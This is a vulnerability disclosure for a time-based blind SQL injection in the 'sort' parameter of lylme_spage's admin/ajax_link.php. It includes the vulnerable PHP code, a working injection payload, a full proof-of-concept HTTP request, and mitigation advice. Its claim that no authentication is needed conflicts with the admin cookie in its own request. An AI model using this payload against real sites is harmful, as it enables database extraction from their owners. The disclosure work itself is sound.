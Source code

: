 # CVE Submission: SQL Injection Vulnerability in lylme_spage

## 1. Vulnerability Title

**Time-Based SQL Injection in `lylme_spage` via `sort` Parameter**

## 2. Vulnerability Type

**SQL Injection (Time-Based Blind)**

## 3. Product Information

- **Vendor:[lylme](https://github.com/LyLme/lylme_spage)**
- **Product:** [lylme_spage](https://github.com/LyLme/lylme_spage)
- **Affected Version(s):[v2.1.0]**
- **Platform(s):** Web-based (PHP + MySQL)

## 4. Vulnerability Description

A time-based blind SQL injection vulnerability exists in the `lylme_spage/blob/master/admin/ajax_link.php` project. The vulnerable point lies in the processing of the `sort` parameter in the following SQL statement:

```php
$sql = "INSERT INTO `lylme_tags` (`tag_id`, `tag_name`, `tag_link`, `tag_target`,`sort`) VALUES (NULL, '" . $name . "', '" . $link . "', '" . $target . "','" . $sort . "');"
```

Due to the direct concatenation of user input without proper sanitization or use of prepared statements, an attacker can inject malicious SQL code via the `sort` parameter.

## 5. Steps to Reproduce

1. Submit a request to the relevant endpoint that triggers the above SQL statement.
2. Inject the following payload into the `sort` parameter:

```
10"'>if(ord(substring(user(),1,1))=108,sleep(5)&exp(999),exp(999))>0);#
```

3. If the first character of the database username is `'l'` (ASCII 108), the server will pause for 5 seconds, confirming the vulnerability.

## 6. Impact

An unauthenticated attacker can:

- Extract database-level information (such as current user, schema, or data)
- Chain blind injection queries to dump database content
- Potentially gain control over the backend system if privileges are high

## 7. Proof of Concept (PoC)

```http
POST /admin/ajax_link.php?submit=add_tag HTTP/1.1
Host: 192.168.153.1:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Length: 562
Origin: http://192.168.153.1:8012
Connection: close
Referer: http://192.168.153.1:8012/admin/tag.php?set=add
Cookie: admin_token=85aeVC2jJJRD%2Fp%2FI7iswn1oGr1H7VfJ9KJGJwk9OapcP7OWbXvEzNTzGiMhJvYYQIkvj1RaKrFbvQ6T%2BsmXF%2F2x8hA; PHPSESSID=hrqk60j6v4afe8b7gi95dphi07
Priority: u=0

------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="name"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="link"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="target"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="sort"

10"'>if(ord(substring(user(),1,1))=108,sleep(5)&exp(999),exp(999))>0);#
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a--

```

Monitor the response time of the server. A 5-second delay indicates a successful injection.

## 8. Mitigation / Recommendations

- Use **prepared statements** (e.g., `PDO` or `mysqli` with bound parameters)
- Apply strict input validation and sanitization
- Disable detailed SQL error reporting in production

## 9. Credit

Discovered by **yanbei**
Contact:yanbei_mail@163.com

